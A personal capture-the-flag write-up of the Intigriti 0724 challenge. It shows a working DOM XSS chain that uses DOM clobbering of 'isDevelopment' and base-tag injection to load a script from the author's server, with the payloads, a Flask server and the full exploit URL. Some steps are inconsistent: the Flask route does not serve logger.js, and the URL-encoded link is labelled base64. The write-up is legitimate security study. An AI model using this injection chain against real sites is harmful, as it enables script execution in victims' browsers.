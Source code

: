 # Intigriti Challenge 0724 - Complete Write-up & Exploit

## Overview

This write-up explains how I solved the Intigriti Challenge 0724, a web security CTF involving bypassing a strict Content Security Policy (CSP) and exploiting DOM behavior to execute JavaScript in the victim’s browser.

The main goal was to bypass CSP restrictions, hijack a dynamically loaded script (`logger.js`), and run `alert(document.domain)` without any user interaction.

---

## Step-by-Step Exploit Breakdown

### 1. Understanding the Challenge

- The vulnerable web page sanitizes user input (`memo` parameter).
- If sanitization fails (due to malformed input), it loads a `logger.js` script dynamically.
- The page only enables “development mode” (`isDevelopment` flag) when running on `localhost`.
- CSP uses `'strict-dynamic'` with script hashes, restricting which scripts can run.

---

### 2. Bypassing `isDevelopment` with DOM Clobbering

Normally, the `isDevelopment` variable is `true` only on localhost, blocking our exploit on the challenge server.

I injected:

```html
<form id="isDevelopment">
```
This creates a global DOM element with the ID isDevelopment that overwrites the JavaScript variable of the same name with a truthy object, tricking the site into enabling dev mode regardless of origin.
### 3. Hijacking Script Loading with the <base> Tag
The site dynamically loads ./logger.js relative to the page.
I injected:
```html
<base href="http://127.0.0.1:8000/">
```
This tag changes the base URL for relative paths, making the browser load logger.js from my own server instead of the challenge’s domain.
### 4. Crafting Malformed Input to Trigger Sanitizer Error
By combining the two injections:
```html
<base href="http://127.0.0.1:8000/"><form id="isDevelopment">
```
the input breaks the sanitizer, causing it to throw an error and load logger.js dynamically.
### 5. Hosting Malicious logger.js on a Local Flask Server
To serve the malicious script, I wrote this Python Flask server:
```python
from flask import Flask, render_template_string

app = Flask(__name__)

@app.route('/')
def home():
    return render_template_string('''
    <!DOCTYPE html>
    <html>
    <head>
        <title>Document Domain Alert</title>
    </head>
    <body>
        <h1>Welcome to Flask</h1>
        <script>
            alert(document.domain);
        </script>
    </body>
    </html>
    ''')

if __name__ == '__main__':
    app.run(host="0.0.0.0", port=8000,debug=True)

```
- This serves a JavaScript file at http://127.0.0.1:8000/logger.js.
- The file contains alert(document.domain); which will pop up the domain of the vulnerable page.
### 6. Running the Local Server
To start the server via:
```pyhton
python3 -m http.server 8000
```
### 7. Full Exploit URL Base 64 encode.
```url
https://challenge-0724.intigriti.io/challenge/index.html?memo=%3Cbase%20href%3D%22http%3A%2F%2F127.0.0.1%3A8000%2F%22%3E%3Cform%20id%3D%22isDevelopment%22%3E

```
When visiting this URL:
- The sanitizer throws an error on the malformed input.
- Dev mode is enabled by the DOM clobbering.
- The page dynamically loads logger.js from my Flask server.
- The browser executes alert(document.domain); under the challenge domain context.

### 8. Result
An alert box pops up showing:
```go
challenge-0724.intigriti.io
```
The Screenshot of the pop up showing
![Popup Alert](https://raw.githubusercontent.com/sad73/CTF-s/31b1b9267165d915d0ce20ca8504aa1479bc3699/DOM_XSS.png)



---

##  Personal Reflection

When I first saw this challenge, I felt overwhelmed. I had never dealt with advanced CSP, DOM clobbering, or dynamic script injection before. It all seemed complicated and out of reach.

But instead of giving up, I started breaking down each part — inch by inch. I studied how the base tag works, what CSP `'strict-dynamic'` really means, and how browsers treat malformed HTML. I spent hours experimenting, failing, tweaking, and finally — it clicked.

And when I saw that **`alert(document.domain)`** pop up...  
I froze.  
Then I smiled.  

> I didn’t just solve a CTF — I understood the web a little deeper.  
> I didn’t just hack a page — I hacked my own limitations.

This was my **first CTF** — and now, I’m not afraid of the next one. In fact, I can’t wait.

---

##  Final Words

> “You don't grow when things are easy. You grow when you face challenges that feel impossible — and solve them anyway.”  
> — Mohamed Sadik


### Lessons Learned
- DOM Clobbering: Overriding JavaScript variables with DOM elements.

- Base Tag Injection: Changing base URL to hijack relative resource loading.

- CSP Bypass: Leveraging 'strict-dynamic' to allow trusted dynamic scripts.

- Sanitizer Abuse: Causing errors to trigger fallback script loading.

- Hosting Malicious JS: Serving payloads to hijacked script URLs.

### Disclaimer
This write-up is for educational purposes and authorized (By Intigriti Challenge 0724) challenges only. Do not attempt unauthorized attacks.
### Contact
Feel free to reach out for questions or collaboration.
- Mail: mwmsadik@gmail.com
- Mohamed Sadik
- **Don't just code it. Understand it. Break it. Rebuild it better.**
